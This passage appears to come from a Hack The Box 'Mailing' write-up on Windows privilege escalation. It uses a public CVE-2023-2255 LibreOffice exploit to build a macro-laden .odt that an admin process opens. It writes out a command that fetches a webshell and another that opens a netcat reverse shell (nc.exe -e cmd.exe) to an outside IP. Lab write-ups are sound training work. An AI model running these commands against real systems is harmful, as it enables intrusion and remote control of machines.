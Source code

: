 I search around for a bit and notice that the C:\ drive contains both `inetpub` and `wwwroot` which makes me wonder whether there is an internal only web page, but that does not appear to be the case. I check for permissions and don't notice anything interesting. I try some DLL hijacking in the `C:\User\maya\Documents\mail.py` direction as suggested from winpeas.

![Mailing6.png](/assets/images/Mailing/Mailing6.png){: .center-aligned width="600px"}


I also try to re-write some files in the `C:\PHP`directory to see if they are somehow being called in a way that I can't see. 

![Mailing7.png](/assets/images/Mailing/Mailing7.png){: .center-aligned width="600px"}

No luck. It turns out to be a vulnerability with one of the Installed Programs - `Libre Office 7.4.0.1`. I do check the installed programs, but I never noticed this until directed at it by the Guided Mode in Hack The Box. Kind of a bummer. It looks like it is vulnerable `CVE-2023-2255` for which there is an exploit [here](https://github.com/elweth-sec/CVE-2023-2255.git)]. 

The suggested command is this: `python3 CVE-2023-2255.py --cmd 'wget https://raw.githubusercontent.com/elweth-sec/CVE-2023-2255/main/webshell.php' --output 'exploit.odt'`, and there's not a lot of explanation in the README. Initially I thought the `--cmd` paramater could just be changed to a reverse shell, and then I could run the python on the machine, but that doesn't make any sense. I'm not even really sure what the suggested command would be for because it just downloads a webshell, so the command would need to be run from a webroot which doesn't really make sense unless you were uploading the document but not able to upload php any other way.

Regardless, what the command does is use `/samples/test.odt` from the git directory to create a file where a macro runs the code you place in the `--cmd` parameter. Then the `.odt` file must still be executed by a admin process. I still needed to find that process, and I had already tried to figure that part out earlier. It turns out that this occurs in the `C:\Important Documents` directory, so it needs to be uploaded there because there is some process that cleans out this directory, and I guess that executes the file. So I uploaded `nc.exe` to `C:\Users\maya\Documents\nc.exe` and ran `python3 CVE-2023-2255.py --cmd 'cmd.exe /c C:\Users\maya\Documents\nc.exe -e cmd.exe 10.10.14.3 445' --output 'nc.odt'`, then placed the `nc.odt` file in the `C:\Important Documents` directory. 
